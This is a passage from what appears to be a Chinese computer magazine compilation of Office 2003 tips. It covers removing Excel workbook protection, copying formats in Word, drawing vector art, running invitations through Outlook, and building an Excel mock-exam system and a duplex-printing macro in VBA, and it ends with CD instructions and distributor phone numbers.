如果只能以只读方式打开，我们打开后另存为一个不设密码的副本，即可解除只读限制。
有时虽然工作簿在打开时没有任何密码，但如果不能对工作表进行复制、移动和插入等操作，那是保护了工作簿，可以通过菜单“工具→保护→撤销工作簿保护”来解除，但如果有密码的话，能够猜出来更好，否则只有新建一工作簿，将被保护的工作表内容用拖选的方法复制到新的工作簿中进行编辑。
相信有了上面一些方法，Excel中应该已没有多少东西能够瞒得过你的火眼金睛，也没有多少内容让你不能左右的了。

（湖南 周黎平）

# 比格式刷更强的格式复制

在Word 2003中复制操作通常都是选中某个对象，有没有想过可以只复制对象属性呢？像是字体、字号、字色、图形的填充色和线条等的设置。其实这些都可以单独复制！
选取一个对象，按Ctrl + Shift + C快捷键即可复制对象属性，然后再选中其他需要粘贴属性的对象，按Ctrl + Shift + V快捷键将属性复制到该对象上。选中的对象可以是文字，也可以是图形对象。对于含有文本的“自选图形”，文本格式将随其他属性一起复制，而且可以同时选中多个对象进行粘贴，这要比格式刷方便得多。

特别值得一提的是Ctrl + Shift + C快捷键对属性的复制与Ctrl + C快捷键的对象复制是完全独立的。用Ctrl + Shift + C快捷键复制的属性，在按Ctrl + C快捷键进行复制后，并不会消失，仍可以重复按Ctrl + Shift + V快捷键粘贴属性，直到下次用Ctrl + Shift + C快捷键复制，这与只可暂时使用的格式刷可真有天壤之别。

此外，对文本属性和对图形属性的复制则有分有合。先选中图形对象复制属性后，再选中文字对象复制属性，则当你选中文字对象按Ctrl + Shift + V快捷键时粘贴的是文字属性，而当选中图形对象按Ctrl + Shift + V快捷键时粘贴的则是图形的属性。如果选中含有文本的“自选图形”进行粘贴则会得到图形的属性加上后来复制的文本属性，相对的如果最后复制属性的是含有文本的“自选图形”则复制图形和文本属性均来自这个图形。

（福建 陈桂鑫）

# 揭开Office绘图之谜 打造个性化矢量酷图

Office 2003自带了184幅wmf格式的矢量剪贴画，为你编制图文并茂的文档提供了方便。你也可以利用Office的绘图功能，亲手动手绘制符合特定要求的图片，效果不亚于专业绘图软件的水准。下面，我们将在Excel 2003中通过实例剖析Office矢量剪贴画的绘制原理和基本方法。

Office绘图工具介绍:执行“视图→工具栏→绘图”，打开“绘图”工具栏，其中“自选图形”包括直线、连接符、基本形状、箭头总汇、流程图、星与旗帜、标注、其他自选图形等八个类型的图形。除“直线”工具外，其他全为现成的自选图形，可根据需要直接插入文档。但对于想用Office来制作酷图的朋友来讲，这些内置的图形毕竟非常有限，所以不得不学会自己DIY。自绘图形时用得最多的是“直线”工具，它包括直线、箭头、双箭头、曲线、任意多边形和自由曲线，利用它们特别是后三种就能绘制出各种各样的图形，“基本形状”中的椭圆、矩形等工具也经常用到。

# 第一步：找到合适的图片

首先，我们需要找一张现成的、结构清晰的Office剪贴画作为剖析和“拆解”的对象。打开Word或Excel，执行“插入→图片→剪贴画”，在“剪贴画”任务窗格中单击“管理剪辑”，打开“Microsoft剪辑管理器”窗口。在左窗格的收藏集中单击“Office收藏集”，然后在其下的分类中选择一个，右窗格即显示出该分类下的所有剪贴画。用鼠标指向某张图片，其右侧会弹出一个下拉按钮，单击它并选择“复制”，再回到文档中执行“粘贴”命令，将其复制到文档中来。

# 第二步：拆散组合

右击该图片，弹出下拉菜单，执行“组合→取消组合”，会弹出一个对话框，提示“这是一张导入的图片，而不是组合。是否将其转换为Microsoft Office图形对象？”，按下“是”，该图片即转换为组合。再观察左上角的图片名称，已显示为“组合702”，表示该图片已被转换为Office图形对象，但此时还不能直接对其编辑。

右击该组合，在弹出的下拉菜单中执行“组合→取消组合”，按住Shift键，分别点选图片中不同部位，会发现在图片上出现了许多钉子状的小点，这是该图片应用了Office图形“组合”功能的见证。组合能使分别绘制的图形单元构成一个整体，方便对图形进行整体的缩放、旋转、移动和复制等处理。

因为组合后无法对每个组成部分直接进行编辑，接下来，我们要把这些组合全部拆开，让它们变为互不相连的、彼此独立的图形元素，即将图形恢复为当初未组合前的状态。拆分方法：单击图片中应用了组合的部分，右击弹出下拉菜单，再次执行“组合→取消组合”。这时会发现，图片中出现了许多密密麻麻的白色和绿色的小圆圈(见图2)，表明这些组合已经被完全拆开。用同样方法将图片中所有的组合全部拆分开来。这时，就可以对每个图形单元进行直接编辑了。

拆分后，单击其中任何一个组成部分，会看到，在其周围出现八个白色小圆圈和一个绿色小圆圈(有的只有四个白色小圆圈，那是因为图形太小，部分圆圈被隐藏，拖动放大后，会全部显现)。这些小圆圈是对图形进行调整的控制点，其作用和用法：鼠标指向顶部的绿色小圆圈，会在其周围产生一个弧形箭头，按下鼠标拖动，会使图形发生旋转。拖动上、下两个白色小圆圈，能使图形在垂直方向上缩放并能产生翻转；拖动左、右两个白色小圆圈，能使图形在水平方向上缩放并能产生翻转；拖动四个角上的白色小圆圈，可以使图形同时在垂直和水平方向上缩放并能产生翻转。

# 第三步：叠放次序

仔细观察一下会发现，这些已被解除组合的图形单元，并不是随意排列的，而是有上下排列次序的，这就是图层概念。任选某部分被压在下一层的小图形，右击弹出下拉菜单，选择“叠放次序→置于顶层”，该图层会被提升至最顶层，使其“原形毕露”。“叠放次序”中共有四种选项：置于顶层、置于底层、上移一层、下移一层。灵活使用“叠放次序”功能，能使你在图层调整中得心应手。

# 第四步：编辑状态

全部被拆散组合后的图形，就变成了一堆按一定规则排列、但相互独立的“零件”。我们可对这些“零件”分别进行修改和编辑。方法：单击某个“零件”，右键弹出下拉菜单，选择“编辑顶点”选项，会在该“零件”的周围出现许多黑色顶点(见图3)。

拖动这些顶点(控制点)，能改变图形的形状。

右击某个控制点或某两个顶点之间的线条，会弹出下拉菜单，包括添加顶点、删除顶点(线段)、开放路径、自动顶点、平滑顶点、直线点、角部顶点、伸直弓形、曲线段、退出编辑顶点等选项，熟练应用这些选项，能使顶点编辑灵活自如，使图形更为生动。

# 启动创造性思维，六步绘制一个酷图

按如上方法，我们来绘制一只在沼泽地里行走的老虎，完稿后的效果如图4所示。面对一只如此栩栩如生、惟妙惟肖的猛虎，你一定很难想象是用Office绘制的吧？但它的的确确就是Office的杰作！如果按照以下步骤操作，你也能够绘制出如此威猛的百兽之王！快来试试看吧。

# 第一步：绘制背景

新建一个Excel工作簿文档，插入五个工作表。在Sheet1中，使用“视图→工具栏→绘图→矩形”工具画一个矩形。双击它，弹出“设置自选图形格式”对话框：1.在“大小”选项卡中，设置高度为14.55厘米，宽度为17.99厘米。2.在“颜色与线条”选项卡中，设置内容——(1)填充颜色：执行“颜色→其他颜色→自定义”，在默认的RGB颜色模式中，将红(R)、绿(G)、蓝(B)分别设置为183、183、127；(2)线条颜色：设置为“无线条颜色”(该老虎图形中所有的线条全设置为“无线条颜色”，下同)。设置完成后按“确定”，背景色就设好了。

# 第二步：绘制沼泽

为便于区分，沼泽在Sheet2中绘制。使用“任意多边形”工具来绘制(以下各步骤均使用这一工具)，先画出沼泽的大概轮廓，然后使用“编辑顶点”的方法进行调整，直至达到图5所示效果。设置图形大小时，宽度均为17.99厘米，高度上部分为6.99厘米、下部分为3.33厘米。设置填充颜色时，RGB分别设为145、158、147。其他方法同第一步。沼泽共由上下两部分组成，绘制好后，将这两部分进行组合：按住Shift键，分别单击这两个图形，用鼠标右键弹出下拉菜单，选择“组合→组合”。

# 第三步：绘制芦苇

在Sheet3中绘制。芦苇分为上、中、下三个部分，填充颜色由浅到深有所不同：上部颜色与沼泽相同；中部颜色RGB为99、117、73；下部颜色RGB为119、91、51。其他方法同上。三部分绘制好后，先将各部分内的每根芦苇进行组合，组合为三个部分，再将这三部分组合为一个整体。

芦苇绘制技巧：先用“多边形工具”绘制一根芦苇，再复制许多，使用“编辑顶点”功能将其分别变形，使之形状各异，呈随风摇摆之态。

第一步至第三步绘制好后合并显示如图5。

# 第四步：绘制老虎

在Sheet4中绘制。老虎的绘制比较复杂，分为以下四个小步骤进行：

1. 绘制老虎轮廓。轮廓是绘制老虎的基础，正如人的骨骼，一定得多花点功夫绘制好，否则后面的步骤都将受到影响。先绘出老虎的大概轮廓，并使之闭合，再使用“编辑顶点”工具进行调整，直至达到预期效果。最后以黑色填充，完成后如图6。轮廓尺寸设置：高度11.06厘米，宽度12.89厘米。

# 2. 绘制虎皮。

以颜色的不同分为四部分：

(1)绘制覆盖范围最大的底纹，填充颜色RGB分别设置为204、102、51，并组合为一体。

(2)绘制左后脚内侧的斑纹，填充颜色RGB分别设置为102、51、0，并组合为一体。

(3)在第一部分的基础上，绘制肚子侧面、腿部和胸部的斑纹，填充颜色RGB分别设置为255、153、51。

(4)在第三部分的基础上，再给肚子右侧和胸部添加一层斑纹，以体现颜色由深到浅的过渡，该层填充颜色RGB分别设置为255、204、153。

虎皮绘制并组合好后如图7。

3. 绘制虎头。虎头的绘制最为复杂，必须分为五个部分进行：

(1)绘制虎头的大概轮廓，填充颜色RGB设置为255、204、153。

(2)绘制额头、脸颊和鼻子部位的斑纹，填充颜色RGB设置为102、51、0。

(3)绘制鼻子、嘴巴和眼睛，鼻子和嘴巴填充颜色RGB设置为255、153、51，眼睛为白色。

(4)绘制耳朵，填充颜色RGB设置为204、102、51。

(5)绘制胡须，填充颜色设置为黑色。

虎头各部分绘制好后，分别组合，最后将五个部分再组合成一个整体，完成后如图8。

4. 绘制虎腿和虎尾。虎腿和虎尾的绘制相对简单，虎腿填充颜色RGB设置为204、102、51，虎尾填充颜色RGB设置为102、51、0。绘制好后分别组合。

第五步：组合与调整

在Sheet5中，将Sheet2、Sheet3、Sheet4中绘制好的沼泽、芦苇、老虎等图形复制过来，调整好它们之间的位置和叠放次序，使之形成一个完整的画面。

第六步：保存与导出

绘制完成后，可以将其保存为Excel文档，也可以导出为图片。方法：按住Shift键，选中所有图形，右击选择“组合→组合”，将它们组合成一个整体。然后右击这个组合，选择“另存为图片”，在弹出的对话框中选择保存类型（如PNG、JPEG等），输入文件名，保存即可。

至此，一只用Office绘制的、在沼泽地里行走的老虎就完成了，是不是很有成就感呢？掌握了Office的绘图原理和技巧，你也可以绘制出更多精彩纷呈的图形！

## 巧用 Outlook 会议筹备有条不紊

身为办公族，一天开两次会很平常，整天连轴转地泡会也不稀奇。好友小玉，身为某公司营销部宣传专员，更是以会为业，被朋友戏称为“会虫”。近日，小玉又在忙春季新品发布会。经过半个多月忙活，准备工作已大体就绪。现在离开会日子还有三天，正是发出邀请函的合适时间。由于同被邀请者都打过交道，有的还很熟悉，因此小玉这回没采用雇快递公司送邀请函的老办法，而是通过发电子邮件来盛情邀请天南海北的渠道合作商和媒体记者赴会。

### 制作邀请函

如果邀请函只是使用简单的文本 E-mail，显得有些简陋，同这次隆重的会议不太相称，小玉打算做一个图文并茂的邀请函。她采用了 Office 套件中的 Publisher 2003 来制作，因为 Publisher 内置了许多模板，其中就有数十个电子邮件模板。

- 第一步：启动 Publisher。在“根据设计方案新建”框中点击“网站和电子邮件”项，然后点击其下的“电子邮件”项，再点击下面的“事件/活动”项，最后在右边窗口中双击“边框式事件/活动电子邮件”模板。
- 第二步：在生成的图文电子邮件中进行适当修改，主要是修改文字内容，调整图片等，操作跟 PowerPoint 几乎完全相同（见图1）。
- 第三步：选择“文件→另存为”菜单，将设计好的图文另存为图元文件 *.wmf。
- 第四步：在 Word 2003 新建文档，选择“插入→图片→来自文件...”菜单，将刚才存储的 wmf 文件调入，再加上适当的文字并调好版式，最后将整个文档存为“请柬.DOC”（见图2）。

### 设置联系人类别

- 第一步：在 Outlook 2003 中点击左边导航窗格的“联系人”标签，当前视图便转换为“联系人”视图，右边窗口中便出现了所有联系人的列表。选择“工具→组织”菜单，在右上方出现“组织”设置面板。
- 第二步：在“创建新类别”框中输入“春展会”，点击“创建”按钮，就建好了名为春展会的新类别（见图3）。
- 第三步：在“将下面选中的联系人添加至”下拉列表中选择“春展会”项，然后在下面联系人列表中单选或按住 Ctrl/Shift 多选，点击“添加”按钮，就将选中的联系人类别设为了“春展会”（见图4）。
- 第四步：在左边导航窗格中点击“按类别”选项，联系人列表就按类别归了类。在“春展会”类别下，就是全部参会人员的地址。

### 群发邀请邮件

出于对与会客人的尊重，不能使用一成不变的邀请格式，至少称谓应随人员变化而变化，让人感觉这是专门为他发的。显然，新建邮件，然后把所有人的地址都放入地址栏的“群发”不能满足要求，得另外想辙才行。

Outlook 2003 功能强大之处再次体现出来，这就是“邮件合并”功能。

- 第一步：在“联系人”视图中，选中“春展会”类别下的所有联系人，然后选择“工具→邮件合并”菜单，弹出“邮件合并联系人”窗口。
- 第二步：在窗口中“联系人”栏选“选定的联系人”项，“要合并的字段”栏选“合并所有联系人字段”项，“文档文件”栏选“现有文件”项，并点击旁边的“浏览”按钮，将“请柬.DOC”文件选上。“合并到”栏选“电子邮件”项，并在“邮件主题行”输入邀请函的简要说明（见图5）。点击“确定”按钮，“请柬.DOC”被 Word 2003 打开。
- 第三步：此时的 Word 上方多了“邮件合并”工具栏。点击该工具栏的“插入域”按钮，在弹出的对话框中选择“姓氏”（因为姓氏项中已输入全名）项，然后单击“插入”按钮将姓氏域插到请柬姓名处。
- 第四步：点击邮件合并工具栏的“查看合并数据”按钮，即可预览邮件最终样式，很明显，请柬姓名处已自动换成了联系人的姓名。利用四个记录移动按钮还可以预览其他联系人的邮件样式，此时会发现每份请柬的姓名都随联系人的改变而改变。
- 第五步：确认无误后，点击邮件合并工具栏的“合并到新邮件”按钮，在弹出的对话框中点击“确认”按钮，邀请函便通过 Outlook 2003 群发出去了（见图6）。

### 设置回函确认

为及时了解邀请函是否被收件人收到和阅读，小玉还在 Outlook 2003 中设置了“送达回执”和“已读回执”。

具体方法是：选择“工具→选项”菜单，在弹出的选项窗口的“首选参数”页中点击“电子邮件选项”按钮，再在弹出的窗口点击“跟踪选项”按钮，在跟踪选项对话框中勾选“已读回执”和“送达回执”两项（见图7）。

这样设置后，发出的邮件只要被收件人从邮件服务器中取下或阅读，都会相应地返回回执邮件，而不管对方是否设置了自动回复功能。

### 群发短信

为确保会议圆满成功，一些重要人物无论如何不能缺席，而这些人通常很忙，有时连上网时间也没有，邀请邮件不一定能收到。而收到邮件的，也可能因昏了头将此事忘在脑后，所以在会议前一天或当天，一定要用电话确认或提醒一次。由于人数众多，挨个打电话太麻烦，因此小玉决定使用 Office 2003 的手机短信群发功能。

### 小提示

使用 Office 2003 短信服务，需要特定的账号和密码。即使已经获得新浪其他服务的密码，你仍然需要申请新浪提供的针对 Microsoft Office 2003 短信服务的特定账号和密码。可以选择下列注册方式：

- 移动用户需发送短信 PW 到 8888
- 联通用户需发送短信 PW 到 9888
- 新浪短信服务的收费标准是：0.1元/条。

软件下载地址是：http://www.microsoft.com/downloads/details.aspx?FamilyID=be44f4c4-0a10-429b-8b2f-9eb784c20439&displayLang=zh-cn

Office 2003 短信服务加载项安装好后，Outlook 工具栏就多了“转发为短信”和“新短信”两项。点击“新短信”按钮，弹出发送短信窗口，在“接受方手机”框中输入与会人员手机号，手机号之间用逗号或分号隔开。在“发送方手机号”框中输入自己的手机号，并在“密码”框中输入在新浪短信频道注册时设置的密码，在“编辑区”中输入短信内容（见图8）。设置完成后，点击“发送”按钮将短信群发出去。

至此，Outlook 2003 的会务之旅总算告一段落了。

### 小提示：打印邀请函你需要注意什么

一般邀请函只需要被邀请者看清内容，不用太花哨，因此在打印邀请函时，可选节约墨粉模式。以惠普激光打印机为例，在“打印首选项”的“完成”选项卡中有个“打印质量”选项，选择“节约墨粉”就可以了（见图9）。

小玉半个多月的辛苦没白受。发布会那天，该来的都来了，几个重量级的腕儿一个都不少。媒体记者也到得很齐，在闪光灯的频闪中，总裁讲话的声调也比往日洪亮了许多。曲终人散时，总裁叫住小玉，连说了好几个“不错不错”，满意之情溢于言表。看来黎叔的话得改改了：“领导很开心，后果很美好。”

（邹肇辉）

## 用 Excel 建立模拟考试系统

做教师的少不了为学生制作各种各样的考试卷子，市面上虽有各种模拟考试系统，却因程序制作复杂，将老师们拒之门外。其实根本不需要懂编程，用 Excel 2003 你也可以制作一个类似的系统。一个可以自动出题、验证考号、答题后自动评分、保存记录的模拟考试系统，当然你也可以给它加上其他功能。

试卷，并输入单选题、多选题、判断题三个大题目，多选题需注明错、漏、多选均不得分。并留出相应的题目位置，单选题 30 题（A5:C34），多选题 40（A36:C75），判断题 30 题（A77:C106）。

### 系统设计

#### 1. 建立题库

打开 Excel 2003，建立“单选题”工作表（如图1），在 A2 输入公式 `=ROW()-1&"."` 以自动生成序号，在 D2 输入 `=IF(C2="","",RAND())`，选中 A2:D2 拖动其填充柄向下复制到其他单元格，大概有几百行也就够了，剩下的需要时再复制。按住 Ctrl 键拖动工作表标签复制出两份，分别重命名为多选题、判断题。

用“自选图形/基本形状”中的棱台画一个按钮，选中在名称框中输入“出题按钮”4字回车，把它命名为“出题按钮”。再右击此按钮选择“添加文字”，在按钮上输入“出题”2字。同样再画一个按钮，把它命名为“评分按钮”，添加文字“评分”。（如图2）

#### 2. 设计试卷

建立“试卷”工作表，你可以按需要设置

#### 3. 显示题目

在 A5 输入公式 `=INDIRECT("单选题!R"&ROW()-3&"C"&COLUMN(),0)`，选中 A5 复制，再选中 A5:C34 进行粘贴。同样在 A36 输入公式 `=INDIRECT("多选题!R"&ROW()-34&"C"&COLUMN(),0)` 并复制到 A36:C75，在 A77 输入公式 `=INDIRECT("判断题!R"&ROW()-75&"C"&COLUMN())` 并复制到 A77:C106。在 E4 单元格输入公式 `=IF(D4=C4,1,0)`，这公式用来判断如果 D4 中的答案与 C4 的标准答案一致就得 1 分否则为 0 分。A5 的公式表示对单选题工作表中同列、行数差 3 的单元格（A2）的引用，公式中使用了 R1C1 格式的单元格编号，其中 3、34、75 是由第一题所在的行数减 2 得来。这公式实现的是绝对位置引用，即不管在单选题工作表中进行插入、删除行或排序，A5 显示的始终都是你从单选题 A2 中直接看到的内容。因此 A5:C34、A36:C75、A77:C106 三个区域将分别与相应题库中最前面的 30（或 40）题的内容保持一致。

#### 4. 答案限制

选中 D5:D34 单击“数据/有效性”，在“允许”中选择“序列”，选中“提供下拉箭头”复选项，在“来源”中输入“A,B,C,D”，不含引号且其中逗号为半角格式（如图3）。切换到“出错警告”选项卡，输入错误信息为“只能输入 A、B、C、D 中的一项，其他任何符号或空格均为非法。”，选中“输入无效数据时显示警告”复选项，选择样式为“停止”（如图4），确定完成设置。

同样对多选题 D36:D75，判断题 D77:D106 设置数据有效性，只是“来源”要分别换成“A,B,C,D,AB,AC,AD,BC,BD,CD,ABC,ACD,BCD,ABCD”和“√，×”。“出错警告”也要做相应修改，特别是多选题一定要说明必须按 ABCD 的顺序输入多选项，否则无法正确评分，若觉得多选题要输入这一大串有效性设置太麻烦，不设置有效性也是可以，你只要在题目中注明不按顺序的不给分不就行了。

#### 5. 准考证号验证

建一个“考生名单”工作表，在 A、B、C 列分别输入序号、准考证号、考生姓名，选中 B 列在名称框中输入“考号”，回车确定把 B 列命名为考号（如图5）。回到“试卷”工作表选中要输入准考证号的 D2 单格，单击“数据/有效性”，在“允许”中选择“序列”，取消“提供下拉箭头”复选项，在“来源”中输入`=INDIRECT("考号")`。切换到“出错警告”选项卡，输入错误信息为“你输入的准考证号并不存在，请重新输入”，选中“输入无效数据时显示警告”，并设置样式为“停止”。在 F3 单元格输入公式`=IF(D2="","",VLOOKUP(D2,考生名单!B:C,2,FALSE))`，这公式会在输入准考证号后自动显示考生姓名。

#### 6. 随机抽题

右击“出题”按钮，选择“指定宏”，在弹出窗口中，输入宏名为“出题”，单击“新建”按钮，编辑如下代码：

```
Sub 出题()
If Range("D2").Value = 0 Then
提示 = MsgBox("请先输入准考证号")
GoTo 重来
End If
'如果 D2 为空则弹出提示要求输入准考证号并直接跳到后面的“重来:”处。
Sheets("单选题").Range("A:D").Sort Key1:=Sheets("单选题").Range("D2"), Order1:=xlAscending, Header:=xlGuess
Sheets("多选题").Range("A:D").Sort Key1:=Sheets("多选题").Range("D2"), Order1:=xlAscending, Header:=xlGuess
Sheets("判断题").Range("A:D").Sort Key1:=Sheets("判断题").Range("D2"), Order1:=xlAscending, Header:=xlGuess
'这三行分别是对单选、多选和判断题工作表的 A:D 区域按 D 列随机数升序排序。
Columns("B:B").Rows.AutoFit
'对 B 列设置最适合行高，以完整显示题目。
Range("D5").Select
'定位到 D5 以便输入答案
ActiveSheet.Shapes("出题按钮").Visible = False
'隐藏出题按钮以防重复选题
ActiveSheet.Shapes("评分按钮").Visible = True
'显示评分按钮
重来:
End Sub
```

试卷中的题目总是显示各题库最前面的 N 题，而在此对各题库按随机数进行随机排序后最前面的 N 题自然是随机的，也就相当于是随机抽题了。

#### 7. 成绩记录表

新建一个“成绩记录”工作表（如图6），在 A2 输入公式`=NOW()`，并选中 A 列右击从“设置单元格格式”中设置为日期格式以显示当前时间。B2、C2 分别输入`=试卷!D2`和`=试卷!F2`以显示相应数据。D2 输入公式`=SUM(E2:G2)`对后面三个得分进行合计，E2、F2、G2 则分别输入公式`=SUM(试卷!E5:E34)`、`=SUM(试卷!E36:E75)`、`=SUM(试卷!E77:E106)`分别对相应题型得分进行合计。

#### 8. 评分和记录保存

右击“评分”按钮，选择“指定宏”，输入宏名“评分”，单击“新建”按钮，编辑如下代码：

```
Sub 评分()
Sheets("成绩记录").Rows("3:3").Insert Shift:=xlDown
'在成绩记录工作表第 3 行前插入一行
Sheets("成绩记录").Rows("2:2").Copy
'复制成绩记录工作表第 2 行
Sheets("成绩记录").Range("A3").PasteSpecial Paste:=xlPasteValues
'以数值方式粘贴到成绩记录工作表 A3
得分 = MsgBox("最终得分 " & Range("成绩记录!D2").Value & ", 其中单选题 " & Range("成绩记录!E2").Value & ", 多选题 " & Range("成绩记录!F2").Value & ", 判断题 " & Range("成绩记录!G2").Value & ", 评分结果")
'弹出信息框显示成绩记录!D2、E2、F2、G2 的数据，标题为"评分结果"
Range("D2,D5:D34,D36:D75,D77:D106").ClearContents
'清除试卷工作表中输入的内容
Rows("3:106").RowHeight = 0
'设置题目区行高为 0，以隐藏所有题目
ActiveSheet.Shapes("出题按钮").Visible = True
ActiveSheet.Shapes("评分按钮").Visible = False
'显示出题按钮隐藏评分按钮
ActiveWorkbook.Save
'保存
End Sub
```

#### 9. 其他设置

选中 A4 单击“窗口/冻结空格”以始终显示 1:3 行的标题和按钮。右击 C、E 列选择隐藏。为答题区以外单元格设置填充色以示区别，把评分按钮重叠到出题按钮上（如图7）。

选中 D5:D34 右击选择“设置单元格格式”，在“保护”选项卡中单击取消“锁定”选项，对于同样需要添写的 D2，D36:D75，D77:D106 区也同样取消锁定设置。然后单击“工具/保护/保护工作表”，在中间“允许此工作表所有用户进行”列表中只选中“选定未锁定单元格”和“设置行格式”两个选项，输入密码（如图8），单击确定把工作表保护起来，这样考生就无法修改试题等相应单元格了。单击评分以隐藏所有题目，同时显示出题按钮，把文件保存为“模拟考试.xls”，退出。

### 系统维护

#### 1. 资料输入

直接在前面做好的单选题、多选题、判断题工作表中输入题目和答案即可，按 Alt+回车键换行，用空格进行水平定位。答案输入时注意不要有多余字符，特别是多选题一定要按 ABCD 的顺序输入多选项，否则无法正确评分，建议参照第 4 步操作对 C 列单元格设置有效性。若以后还想用到当前的题目顺序可在最后面增加一列（E 列）填充序列号，需要时按此列排序即可。在“考生记录”工作表中输入姓名和准考证号，这可以直接从相关工作表中复制过来。

#### 2. 隐藏工作表

把除试卷外的其他工作表隐藏起来以免考生看到。单击“工具/宏/Visual Basic 编辑器”，在弹出窗口左侧选中要隐藏的工作表名，如：Sheet4（判断题），在属性窗口中把 Visible 项的值设置为 0-xlSheetHidden（如图9）即可隐藏该工作表，重复这一步把除试卷外的其他工作表全部隐藏。以后如需显示只要按这操作把 Visible 改回 -1-xlSheetVisible 即可。若看不到属性窗口可按 F4 键显示。为防止学生修改，还得右击 VBAProject（模拟考试.xls）选择“VBAProject 属性”，在“保护”选项卡中选中“查看时锁定工程”，并输入密码（如图10），确定保存文档退出。这样## 如何考试

打开“模拟考试.xls”就只有一张“试卷”工作表，先输入准考证号回车确认，正确的话就显示姓名否则会要求你重输。单击出题按钮即可显示题目，同时出题按钮会变成评分按钮。考生可在D列选中相应单元格直接输入答案或单击单元格后的下拉按钮从列表中选择输入(如图11)。题目做完后，单击“评分”按钮即可显示最后得分，确定后自动保存，并回复到最初状态。



## 系统修改

在电脑上能直接处理的题型就只有这三种，所以能改的也只有各种题的数量而已。这只要三步即可：

1. 撤消工作表保护，在相应题目中选中N行，右击选择“复制”再选择“插入复制单元格”，如果要减少则右击选择“删除”就OK。
2. 选中B:D列右击选择“取消隐藏”，按一、3中介绍的规则修改复制二、三大题各题目区域的公式。然后重新隐藏C列和保护工作表。分数记录中的公式会自动调整可不必修改。
3. 修改一、8评分的宏代码中最后
    ```
    Range("D2,D5:D34,D36:D75,D77:D106").ClearContents
    Rows("3:106").RowHeight = 0
    ```
    中的区域范围即可。

本文中的两个宏代码其实最主要部分就只是排序、设置行高、插入行、复制、选择性粘贴等基本操作而已，如果你不喜欢编代码，那么大可使用录制宏直接录制相应操作，基本的出题和评分功能都同样可以实现，只是会少一些提示窗口和按钮限制而已。

【陈桂鑫】



> **小提示**
> 叩开Excel的安全门
> 按照上面方法制作的模拟考试系统在运行时有一个问题，Excel 2003的默认设置会把宏的安全性设置为高，表现为运行时出现“安全性提示”对话框。解决方法是，打开Excel文档，依次单击“工具→宏→安全性”，选择“中”并“确定”，关闭并重新打开Excel文档后，选择“启用宏”即可。



## 双面打印

从节约的角度出发，公司的表格都要求双面打印。但Excel偏偏没有这一功能！怎么办？自己动手添加一个“双面打印”的按钮吧！

## 编辑宏

第一步：启动Excel 2003(其他版本请仿照操作)，执行“工具→宏→Visual Basic编辑器”命令，进入Visual Basic编辑状态(如图1)。

第二步：在右侧的“工程资源管理器”区域中，选中“VBAProject(PERNOSAL.XLS)”选项，执行“插入→模块”命令，插入一个新模块(模块1)。

小提示
“PERNOSAL.XLS”叫做“个人宏工作簿”，第一次使用宏功能时，需要进入下述操作，添加“个人宏工作簿”：在Excel中，执行“工具→宏→录制新宏”命令，打开“录制新宏”对话框(如图2)，输入一个名称，然后选择将其“保存在”“个人宏工作簿”中，确定返回，随便做一下编辑操作，然后按“停止录制”工具栏上的“停止录制”按钮，系统即可自动添加“个人宏工作簿”。

第三步：双击“模块1”进入代码输入区域，将下述代码输入其中：

```
Sub dy()
On Error Resume Next
x = ExecuteExcel4Macro("Get.Document(50)")
For i = 1 To Int(x / 2) + 1
ActiveWindow.SelectedSheets.PrintOut From:=2 * i - 1, To:=2 * i - 1
Next i
MsgBox "请将打印出的纸张反向装入纸槽中", vbOKOnly, "打印另一面"
For j = 1 To Int(x / 2) + 1
ActiveWindow.SelectedSheets.PrintOut From:=2 * j, To:=2 * j
Next j
End Sub
```

第四步：输入完成后，关闭Visual Basic编辑窗口返回。

## 添加按钮

第一步：执行“工具→自定义”命令，打开“自定义”对话框(如图3)。

第二步：切换到“命令”标签下，在“类别”下面选中“宏”选项，然后将右侧“命令”下面的“自定义按钮”选项拖到工具栏合适位置上，添加一个按钮。

第三步：单击“更改所选内容”按钮，在随后展开的快捷菜单中，在“命名”右侧的方框中输入按钮名称(如“双面打印”)，并选中“总是用文字”选项。

第四步：在不关闭“自定义”对话框的情况下，右击工具栏上刚才添加的“双面打印”按钮(参见图3)，在随后弹出的快捷菜单中，选择“指定宏”选项，打开“指定宏”对话框(如图4)。

第五步：选中上面编辑的宏，确定退出，再关闭“自定义”对话框返回Excel编辑状态。

## 双面打印

启动Excel，打开需要双面打印的工作簿文件，单击“双面打印”按钮，系统先将奇数页打印出来，然后弹出如图5所示的提示框，将打印的纸张反向装入打印机的纸槽中，按下“确定”按钮，即可将偶数页打印到另一面上，达到双面打印的目的。

> **小提示**
> 如果在打印过程中，出现夹纸现象，致使部分页面损坏，可以通过执行“文件→打印”命令，打开“打印”对话框，用手动的方法将少量损坏的页单独打印出来即可。











【陈秀嵘】

## 光盘使用说明

① 光盘放入光驱后，光盘程序将自动运行，播放片头动画。动画播放结束后，进入程序主界面。如果想跳过动画，可以在画面中任意处单击鼠标或者单击右下角的“跳过”即可。

② 如果不想让光盘程序直接运行，可以在放入光盘的同时按<Shift>键不放，以跳过动画的播放。在资源管理器中可以直接浏览光盘，也可以双击 Start.exe 文件重新运行光盘程序。

③ 在主界面上点击相应的主题按钮即可进入下一级界面或调用其他程序。

④ 在主界面上点击右下角的声音按钮可关闭或打开背景音乐。点击退出按钮可关闭光盘程序。

⑤ 在下一级界面中，都会有一个返回按钮，点击即可返回到上一级界面中。

⑥ 光盘中的PDF格式电子书，需要预先安装好Acrobat Reader软件，否则无法正常使用。如果您的系统中没有安装该阅读器，可安装本光盘中所带的 Acrobat Reader 6.0。

### 《电脑爱好者》合订本各市级经销商联系电话(合订本配套光盘如有破损，可联系以下代理调换)

| 省份 | 电话 | 省份 | 电话 | 省份 | 电话 |
|---|---|---|---|---|---|
| 广东省 | 020-34292249 | 甘肃省 | 0931-8518072 | 上海市 | 021-63780159 |
| 深圳市 | 0755-82264710 | 宁夏 | 0951-5076026 | 浙江省 | 0571-88256019 |
| 广西省 | 0771-2621300 | 青海省 | 0971-8237819 | 黑龙江省 | 0451-88342321 |
| 湖南省 | 0731-2252951 | 江西省 | 0791-8596259 | 吉林省 | 0431-2777386 |
| 贵州省 | 0851-5984895 | 北京市 | 010-65072885 | 辽宁省 | 024-23910600 |
| 陕西省 | 029-87459205 | 河南省 | 0371-67647243 | 河北省 | 0315-2814874 |
| 四川省 | 028-86666489 | 湖北省 | 027-85493601 | 内蒙古 | 0471-6925297 |
| 新疆 | 0991-4821133 | 安徽省 | 0551-2647185 | 山东省 | 0533-2158682 |
| 云南省 | 0871-4178815 | 福建省 | 0591-87148781 | 山西省 | 0351-7041968 |
| 重庆市 | 023-67051823 | 江苏省 | 025-86634184 | 天津市 | 022-23683995 |

## 查报价还有IT品牌事

